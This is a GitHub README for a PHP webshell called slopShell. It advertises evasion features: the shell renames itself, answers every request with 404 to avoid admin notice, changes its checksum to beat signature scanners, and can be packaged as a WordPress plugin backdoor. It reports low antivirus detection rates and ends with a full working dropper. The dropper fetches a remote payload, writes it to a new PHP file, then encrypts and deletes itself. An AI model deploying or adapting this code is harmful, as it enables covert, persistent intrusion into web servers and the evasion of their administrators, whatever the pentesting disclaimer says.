 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell (the client script is the 100% best way to communicate with this shell). 


Thank you for all the support the community has given, it means alot to us. Now for things that will be added to this shell, to make it even more awesome. 

 - Mutual TLS, with the ability to generate a CA on the fly(if thats possible) 
 - More refined dropper/shell itself, to ensure that the shell will not be stumbled upon for prolonged access.
 - Future edititions of this will have access to a personal database of cloud entities, its bascially a personal shodan of mine. Fee will be required for this(sorry).


Current VT Detection ratio: 2/59 (most new version)

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/fbec31525f79578305d67847183dbef7c7a64b431aef81fd59aadfbaa10461c5/detection)


Current VT Detection ratio (obfuscated version): 1/59 //This is a refined version of the slimmed down dropper. the overall file length is just under 2kb in size. Slopshell now correctly assigns a randomized useragent with a correct useragent value, that is, an actual useragent like mozilla,opera,chrome,chromium, etc.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/46920e27a685d707cb82f23c6c76dd3705d6ec9c96b398828d57791bed7af059/detection)

~~__The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.__~~

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-dev && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-devel && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

You need to cd into `/lib/` and run `composer install` to install the server side depends that will be required for the client to work. The client now runs much faster than before. 

---
# Credits for the execution methods

You may notice these are a reskin of another Wordpress backdoor, and once i find the repo again, [i will make sure to give credit for the execution of commands function that is present in these shells](https://github.com/leonjza/wordpress-shell/blob/master/shell.php#L47). I do not like to rip off code and believe that credit needs to be given where credit is due. Thank you kind sir, you have helped me quite a bit with this by making your scripts available to the public.

---
## What makes this shell unique?

So, while doing some changes, i thought heck why not add in a way for the ACTUAL shell itself to hide itself from a less than observant admin. Cleaned up the code execution methods, cleaned up the whole script. No longer will it display a fake 500 page, as this attracts too much attention from an observent admin (more so from my time as an admin of a php dev stack on a server) 500 error messages attract a lot of attention, which will mean the shell is more likely to be discovered. A 404 response however, is much less likely to draw in the gaze of the server admin. Making this shell itself much more difficult to detect and find, in addition to the changing filename, finding this shell will be an absolute nightmare. User-Agent customization is still something that will need to be done, or a unique cookie value will need to be used in place of the User-Agent value that however, will not be set by myself and i will let more experienced users customize this shell to their hearts content. Again, if you notice any issues, or any shortcomings(most i have fixed, and have updated this shell to PHP8 for the most part, type hints i still cannot add in and this is for backwards compatibility reasons) please do open an issue and let me know what is wrong, and i will see about fixing it. Thank you, do good fight evil, have fun.

Here is what I was able to come up with for the added evasive routines:
 - The shell will dynamically rename itself (this did break the client for now, I have so many things to change in the client, but this is just a pet project of mine.)
 - The original file will be deleted after it is written to disk the script now also adds a random comment at the top of the file, completely changing the checksum of the file, making signature based detection scanning much more difficult, not polymorphic, would be nice if this can be done in php. May write an additional function to randomize the location of the functions and adds random functions at random locations.
 - The value of the old file and the new file name will be reported back to the user in a header.
 - The shell now response HTTP 404 to everything, even valid requests. (another reason the client script is broken.)
 - Still working on the MTLS portions of the client and shell script.
 - I named it something different than i normally do.
 - Remapped some of the extra functions to fire off by default now, IE OS detection.
 - Added the ability for the script (if the directory is writable) to create a hidden folder for the shell to store the uploaded goodies to, and then reference.
 - Still working on dynamic loading and execution of uploaded scripts.

As I have grown in the language of PHP so will this whole project and the classes will become proper classes, with namespaces and all. Just need some time as i fix the code to more common standards of PHP development. ~~I will likely add in a way to package this shell itself as a WordPress plugin, so that way it can be used in wordpress as well.( a proper plugin at that.)~~ The client now makes proper wordpress plugins, which hook the init function of the wordpress site. I have not tested this fully, so if there are any issues at all, please feel free to open a new issue and describe the problem you are having. The activator for the wordpress plugin is left blank, this is because i am looking at ways to make the activator a secure/encrypted unique value that cannot be replicated. Please be patient.

---
## Images of use cases

Client script usage:
![](https://github.com/oldkingcone/slopShell/blob/master/images/client_usage.png?raw=true)

Reverse Connection initiated from the client script:
![](https://github.com/oldkingcone/slopShell/blob/master/images/reverse_connection_client_script.png?raw=true)


---
## Additional

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.

## Slimmed down dropper example: 
```
/* These comments are not present in the actual dropper, these are here to explain what this is doing.*/
<?php
http_response_code(404);
# pre shared values that only the operator of this shell will have. This dropper will be split into 3 parts to include system enumeration.
if (isset($_COOKIE['6e3611c0032725']) && $_SERVER['HTTP_USER_AGENT'] === 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36(d9e1cee219f19c6d7c)'){
    if (isset($_POST['hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df'])){
        $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df = explode('.', unserialize(base64_decode($_COOKIE['6e3611c0032725']), ['allowed_classes' => false]));
        # Pre-shared value that only the operator has access to through the database.
        if ( hash_equals(hash_hmac('sha256', $_COOKIE['6e3611c0032725'], $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[0]), $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[1]) ){
            if (function_exists("com_create_guid") === true){
                $CDd5054278c02f = trim(com_create_guid()).PHP_EOL.PHP_EOL;
            }else{
                $70f4adfb6efefe08db = openssl_random_pseudo_bytes(16);
                $70f4adfb6efefe08db[6] = chr(ord($70f4adfb6efefe08db[6]) & 0x0f | 0x40);
                $70f4adfb6efefe08db[8] = chr(ord($70f4adfb6efefe08db[8]) & 0x3f | 0x80);
                $CDd5054278c02f = vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($70f4adfb6efefe08db), 4)).PHP_EOL.PHP_EOL;
            }
            # returns our needed data back to the server, this is broken into 3 parts, the uuid, the filename of our shell/enumeration script, and if we need stealth or not.
            echo $CDd5054278c02f . "_e8a4f6f58c05"."_true".PHP_EOL;
            fputs(fopen('./e8a4f6f58c05.php', 'a+'),base64_decode(file_get_contents($hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[2])));
            foreach (file($_SERVER['SCRIPT_FILENAME']) as $line){
            # if this dropper is activated in the correct way, this portion of the script takes less than a second to complete due to the size of this script.
                fwrite(fopen($_SERVER['SCRIPT_FILENAME'], 'w'), openssl_encrypt($line, 'aes-256-ctr', bin2hex(openssl_random_pseudo_bytes(100)), OPENSSL_RAW_DATA|OPENSSL_NO_PADDING|OPENSSL_ZERO_PADDING, openssl_random_pseudo_bytes((int)openssl_cipher_iv_length('aes-256-ctr'))));
            }
            # dropper routine is finished, no need to exist on the system any longer.
            fclose($_SERVER['SCRIPT_FILENAME']);
            unlink($_SERVER['SCRIPT_FILENAME']);
        }else{
            die();
        }
        die();
    }
}else{
    die();
}
```
